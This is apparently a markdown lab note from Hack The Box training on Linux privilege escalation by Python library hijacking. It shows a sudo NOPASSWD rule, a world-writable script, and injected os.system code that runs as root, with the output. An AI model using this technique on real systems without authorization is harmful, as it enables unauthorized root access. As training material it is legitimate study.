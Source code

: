 # Linux Internals-based Privilege Escalation
`The Guide`

- [Python Library Hijacking](#python-library-hijacking)


## Python Library Hijacking
**Wrong permissions**
```bash
ls -la mem_status.py
-rw-rwxr-x 1 htb-student htb-student 491 Nov  4 07:15 mem_status.py
```
```bash
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python3 /home/user/mem_status.py
```
> Looking at the result of above commands we can execute this python code as root.

### Root
```bash
$ sudo /usr/bin/python3 /home/user/mem_status.py 
uid=0(root) gid=0(root) groups=0(root)
Available memory: 88.78%
```
`contents of mem_status.py`
```python
#!/usr/bin/env python3
import psutil 

# RED CODE
import os
os.system('id')

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```